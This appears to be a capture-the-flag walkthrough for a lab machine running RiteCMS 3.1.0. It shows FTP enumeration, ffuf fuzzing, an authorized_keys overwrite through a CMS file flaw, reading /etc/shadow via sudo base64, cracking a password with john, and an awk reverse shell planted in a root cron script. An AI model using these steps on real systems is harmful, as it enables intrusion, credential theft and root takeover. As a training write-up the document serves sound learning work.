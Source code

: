 Open the index site of the machine at: <ip>

We are greeted with a "Welcome to our Website" and an image of a character.

With a reverse image search we can deduce that the character is called April.

Question: What is the first name of the character on the landing page?

Answer: April

We can then start scanning the room and answer the following questions:

1.  How many ports does the machine have open?

2. What is the CMS version?


First scan the room with nmap:

![Nmap scan of the room](nmap.png)

This shows us the following information:
4 open ports:
Ftp command and data ports , apache and SSH.

NOTE: the Ftp data port may not be visible in the scan since nmap default scan might not check if the data port is open.

Question:

Question:  How many ports does the machine have open?
Answer: 4

We can then interface with the FTP server to find extra information that might be left there

The ftp server can be connected to with the following command:
ftp <ip>

Then entering Anonymous as user

then changing to passive mode with "pass" command to be able to interface with the ftp server.

![Interfacing with ftp](ftp.png)

A directory listing inside the ftp server shows us a directory called "public" inside which are diary and log files

![Interfacing with ftp](ftpls.png)

We can download the diary files by typing:
get <filename>

diary_06_05.txt shows the following information:


![April's diary](diary.png)

there are other files with hints inside the ftp, but the relevant file is this one that reveals that the admin panel is behind a hidden path and that the admin password is "mastersplinterknowskarate"

Let's find this path:

ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -recursion -u http:/<IP>/FUZZ

This command first finds a directory called .listings
then beyond that directory, it finds a directory called cmsadmin

So the full path is:
http://<ip>/.listings/cmsadmin

![cms](cms.png)

Down on the right we can see the RiteCMS version:
v.3.1.0


Question: What is the CMS version?
Answer: 3.1.0

We can then try to find an exploit from exploitdb:

And come accross this Arbitrary file overwrite vulnerability

https://www.exploit-db.com/exploits/50614

We can then head on over to the admin page and login with the following credentials:

admin:mastersplinterknowskarate


Then we can head onto settings, then onto the files manager:

We can now have multiple ways to do this but the original intention of this room was to add your own authorized keys and then ssh into the machine, lets do this:

first create a key with:
ssh-keygen -t rsa
Then add the public key from this to a file called "authorized_keys"
and overwrite the same file on the server:
the public key is added with:
cat key.pub >> authorized_keys
We can then replace the original authorized_keys file on the server with this one:

![file upload vuln](fileupload.png)

After adding this we can then login with the april user as the server:

ssh -i key april@<ip>

We arrive at the home folder of april and can read the first user flag:


![userflag](userflag.png)

Let's then start looking for the second user flag:

Lets start by looking at what we can do:

We can find this information manually or with linpeas.sh

We can find the binary we are looking for with 
sudo -l

that gives the following output

![base64](base64.png)

We can then exploit this binary by using the following gtfobin:
https://gtfobins.github.io/gtfobins/base64/

lets read files we should not have access to such as /etc/shadow and /etc/passwd:

```console
LFILE=/etc/shadow
sudo base64 "$LFILE" | base64 --decode
```

The copy the output of this manually and add it to a file called shadow.txt

Then repeat for the same for /etc/passwd

```console
LFILE=/etc/passwd
sudo base64 "$LFILE" | base64 --decode
```
And copy this to a file called passwd.txt

Then we can crack the password for the second user using john:

We took the first part from the shadow for leonardo:

The hash is as follows:
![hash](hash.png)
The result:
![john](john.png)

That gives the following password for the user leonardo:

1322818jmkc

We can then log onto this user and read the second user flag:

![Second user flag](2nduserflag.png)


We can then move onto the final privilege escalation of the challenge:

Let's read the global crontab file with:

cat /etc/crontab

and we can see the following entry:

* * * * * root /home/leonardo/check_status.sh

Which means that root runs a script in /home/leonardo/check_status.sh

if we read this file: it gives the output:

$ cat check_status.sh
echo "Gathering UFW status..."
systemctl status ufw
echo "Status for UFW gathered!"$ 

We then need to edit this file to include a reverse shell that connects to our machine when the script is ran:

NOTE: not all reverse shells work for this so finding one might be trial and error:

A working reverse shell for this is:
```console
awk 'BEGIN {s = "/inet/tcp/0/<ip>/4445"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

We then start a netcat listener on the attacker end with:

nc -lvnp 4445

![Root flag!](rootflag.png)

And you have now completed the room.